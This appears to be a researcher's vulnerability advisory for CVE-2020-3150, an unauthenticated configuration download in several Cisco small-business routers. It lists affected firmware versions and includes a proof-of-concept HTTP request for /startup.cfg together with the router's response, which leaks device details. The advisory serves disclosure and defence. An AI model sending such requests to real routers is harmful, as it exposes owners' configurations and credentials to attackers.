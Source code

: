 Detailed advisories with proof-of-concepts follows. As always, if you have any question just get in touch on [Twitter](https://twitter.com/qkaiser) or by [email](mailto:kaiserquentin@gmail.com).

---

### CVE-2020-3150 - Cisco RV110W/RV130/RV130/RV215W Routers Unauthenticated Configuration Export

#### Summary

A vulnerability in the web-based management interface of Cisco RV110W/RV130W/RV215W Wireless-N
Multifunction VPN Routers could allow an unauthenticated, remote attacker to retrieve sensitive information.

#### Impact

A successful exploit could allow the attacker to download the router configuration or detailed diagnostic
information.

Note that to be able to download the file, an administrator user must have open the page backup.asp on the
device since the latest reboot. Once the page is accessed, a flag is set by the httpd binary, allowing for
generation of the startup.cfg file download (saved in /tmp/config.txt).

#### Affected Systems

- RV110W Wireless-N Multifunction VPN Router up to version 1.2.2.4 included
- RV130 Multifunction VPN Router up to version 1.0.3.51 included
- RV130W Wireless-N Multifunction VPN Router up to version 1.0.3.51 included
- RV215W Wireless-N Multifunction VPN Router up to version 1.3.1.4 included

#### Description

The vulnerability is due to improper access controls for URLs. An attacker could exploit this vulnerability by
connecting to an affected device via HTTP or HTTPS and requesting specific URLs.

Here we show that an early version of the RV215W is affected:

```
GET /startup.cfg HTTP/1.1
Host: 192.168.1.1
Connection: close

HTTP/1.1 200 Ok
Server: httpd
Date: Fri, 01 Jan 2010 00:01:46 GMT
Content-Disposition: attachment; filename=RV215W_startup.cfg
Content-Type: application/octet-stream
Connection: close
;RV215W Configuration File - Version: 1.1.0.5
;MAC address: 10:BD:18:AC:57:3A
;Serial Number: CCQ231407B9
;The checksum: 8A41D8E444067386
--snip--
```
